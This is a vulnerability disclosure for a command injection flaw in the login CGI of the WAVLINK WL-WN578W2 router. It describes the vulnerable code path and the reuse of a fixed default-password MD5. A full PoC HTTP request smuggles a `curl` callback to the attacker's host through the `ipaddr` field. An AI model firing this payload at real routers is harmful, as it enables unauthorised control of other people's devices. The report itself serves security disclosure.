



# WAVLINK WL-WN578W2 M78W2\_V221110 Command Injection (sys\_login1 Action in login.cgi)

PS:


1.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.

2.  Authenticated access required, but password uses fixed MD5 (no dynamic change). Attackers only need the password’s MD5 (e.g., default password) to reuse the exploit.

## Overview

A command injection vulnerability exists in the `sys_login1` action of `login.cgi` (WAVLINK WL-WN578W2, firmware M78W2\_V221110). The `ipaddr` parameter in `sub_401BA4` function (login.c) lacks sanitization and is directly concatenated into system commands. With `page=sys_login1` in POST requests to `/cgi-bin/login.cgi`, attackers with the password’s MD5 can inject arbitrary commands to control the device.


## Details


*   **Vendor**: WAVLINK

*   **Product**: WAVLINK WL-WN578W2

*   **Firmware**: M78W2\_V221110

*   **Affected Endpoint**: `/cgi-bin/login.cgi` (POST method, trigger via `page=sys_login1`)

*   **Vulnerable Code**: `ftext` function (request routing) & `sub_401BA4` function (core login logic) in login.c

*   **Vulnerability Type**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, fully control the device; exploit is reusable via fixed password MD5.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description


1.  **Request Routing**: The `ftext` function parses the `page=sys_login1` parameter from the request and calls the `sub_401BA4` function to process core logic.

2.  **Password Verification**: `sub_401BA4` uses the command `echo -n '%s' | md5sum` to verify the input password (fixed MD5 encryption logic, no dynamic changes).

3.  **Command Injection**: The `ipaddr` parameter is not sanitized and is directly used in system command concatenation. Attackers can use delimiters (e.g., `;`) to inject malicious commands.







## Proof of Concept (PoC)

### PoC: Inject `curl` Command to Verify Execution

Requires the device password’s fixed MD5 (e.g., `e10adc3949ba59abbe56e057f20f883e` corresponds to the default password `123456`).

#### Full PoC HTTP Request


```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 145
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=sys\_login1\&ipaddr=::ffff:192.168.10.154;curl http://192.168.10.154:1234#\&key=M55373357\&password=e10adc3949ba59abbe56e057f20f883e
```

#### PoC Execution Results


1.  **Fixed MD5 Generation**: Run the command `echo -n '123456' | md5sum` on a Linux terminal to generate the password hash, which matches the `password` parameter in the PoC.





1.  **Successful Injection**: After sending the PoC request, the device executes the injected `curl` command, and the attacker’s server (192.168.10.154:1234) records the request, confirming command execution.
